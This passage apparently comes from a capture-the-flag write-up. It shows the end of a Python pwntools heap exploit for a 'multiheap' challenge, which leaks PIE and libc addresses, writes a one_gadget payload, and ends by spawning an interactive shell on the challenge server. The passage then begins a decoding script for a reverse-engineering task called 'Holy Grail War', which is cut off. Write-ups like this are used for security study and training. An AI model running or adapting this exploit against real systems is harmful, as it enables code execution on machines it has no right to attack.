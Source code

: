 ```python
        print 'error !'
        return

    one_gadget = 0x4f2c5
    one_gadget = 0x4f322
    # one_gadget = 0xe569f
    # one_gadget = 0xe5858
    # one_gadget = 0xe585f
    # one_gadget = 0xe5863
    # one_gadget = 0x10a38c
    # one_gadget = 0x10a398

    pie_addr = u64(data[ : -1] + '\x00' * 2) - 0x205bc8
    log.info('pie addr is : ' + hex(pie_addr))
    payload = p64(heap_addr + 0x12fe0 + 0x20) + p64(0) + p64(0) + p64(0) + p64(one_gadget + libc_addr) * 4
    Read(5, len(payload), payload)

    Free(3)

    # gdb.attach(p)

    p.interactive()

if __name__ == '__main__':
    GameStart('multiheap.chal.ctf.westerns.tokyo', 10001, 0)




```

## Holy Grail War (Reverse) 314pt

```python
from struct import pack, unpack

def ROL(a, b):
    return ((a << b) & 0xFFFFFFFF) | (a >> (0x20 - b))
def ROR(a, b):
    return ((a << (0x20 - b)) & 0xFFFFFFFF) | (a >> (b))
def ADD(a, b):
    return ((a + b) & 0xFFFFFFFF)  
def SUB(a, b):
    return ((a - b) & 0xFFFFFFFF)  
keys = [
"ee9ef18322ed45da846d740f6dab5659efc01789b6f35c7add1267791ffb096069c55b6ad3576c37380dbae978e082bec16c8577eecf73a2832c14d4a674730168aeaea30423b5029e4b3d0ebf80b01e4b37a8300f0ff18409358202abbfdad0c65353c88e268e76",
"810378a893b825d35ff2892881923c097013a30cbebb1af0eb1e9b06cd655b3312f8a0db2e1f6426e048cdcd0980fb2f6d7d07754a62238f0af2c87101b854e236a93b442f4a4f6f5f59ba8aa630859a0e5a2ac48d30d89abd8d6242de10abab0e66959f3ce90eae",
"504935776d303b1135128a3fd16eafe3e9d14cf5e871fb9eba448d297022678f2370a9e95bd40071e4a5f208a5e409eec79f53c6538753c84b1b9ef50e2968d203d2f176b2e91799d4328a900101d2e88ef89260ec73fc845827d9cb2464a64417957782febe39ec",
"f82654105fd5452901c16e5a75fc603ca35f36bc9c697655158754991fbd081c975637d54cfc161f91e71b54ff149316dbc2bfdd7f1e139c6e6a9bec9808701967c00b63c8df545161579a7304e3bc9e469d8f6da45690369ee0c45be8bb39a1623d0293779197e5",
"edb6156e9e3459f2d8fdd4fe2b489a75d60f154bf19826d4e18cd885ee96372594f61a9447b39709bb2eb2cd6cf55e36903e8f45c336c5a14d28e100377b555ff8dff6ad96a06062f51fb83d0a078e7afa09067a19ed6d9ed54377375b5aad8e2147bf69a493ea04",]
keys = map(lambda x:unpack('<26I', x.decode('hex')), keys)

```